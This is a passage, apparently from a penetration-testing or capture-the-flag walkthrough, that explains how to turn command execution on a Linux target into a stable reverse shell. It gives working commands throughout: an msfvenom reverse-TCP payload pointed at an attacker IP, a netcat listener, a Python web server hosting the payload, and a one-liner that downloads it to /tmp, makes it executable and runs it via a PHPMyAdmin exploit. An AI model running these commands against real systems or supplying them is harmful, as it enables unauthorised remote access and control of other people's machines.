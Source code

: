 6. Run: `run` or `exploit`
7. This should give you a Meterpreter or standard shell. If it's a standard shell, skip to Step 5 (Shell Upgrade). If Meterpreter, type `shell` to get a standard shell first.


### 4. Establishing Reverse Shell (The "CMD Shell" Technique)

This is the core method to get a stable shell once you have *any* form of command execution (from PHPMyAdmin exploit, WordPress theme edit, etc.).

1. **Generate Payload (Attacker):** Create a stageless reverse shell executable using `msfvenom`.

```bash
# Choose a port NOT already in use, e.g., 4444
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf
```

    * `-p`: Payload (Linux, 64-bit, stageless TCP reverse shell).
    * `LHOST`: Your attacker machine's IP.
    * `LPORT`: The port your listener will use (e.g., 4444).
    * `-f elf`: Output format (Executable for Linux).
    * `> shell.elf`: Save output to `shell.elf`. *Remember this filename.*
2. **Start Listener (Attacker - Terminal 1):** Listen for the incoming connection on the port you chose.

```bash
nc -lvnp 4444
```

    * `-l`: Listen mode.
    * `-v`: Verbose output.
    * `-n`: No DNS resolution.
    * `-p`: Port number (must match `LPORT` in `msfvenom`).
3. **Serve Payload (Attacker - Terminal 2):** Start a simple web server in the *same directory* where you saved `shell.elf`.

```bash
# Use default port 8000 or specify one like 8001
python3 -m http.server 8000
```

*Note the port (8000 here).*
4. **Trigger Execution (Target):** Use your command execution vulnerability (from Step 3) to download, make executable, and run the payload on the target. Common location: `/tmp`.

```bash
# Command(s) to run on the target via the exploit:
cd /tmp; rm -f shell.elf; wget http://<attacker_IP>:8000/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf
```

    * Breakdown: Change to `/tmp`, remove any old `shell.elf`, download the new one from your python server (`wget`), make it executable (`chmod +x` or `chmod 777`), and run it.
    * *Modify:* Use `curl -o shell.elf http://...` if `wget` isn't available. Ensure filename matches (`shell.elf`). Ensure IP and port match your attacker machine and Python server. Combine commands with `;`.
    * **If using the PHPMyAdmin exploit script:** Replace the test command (like `'whoami'`) with this full command string.
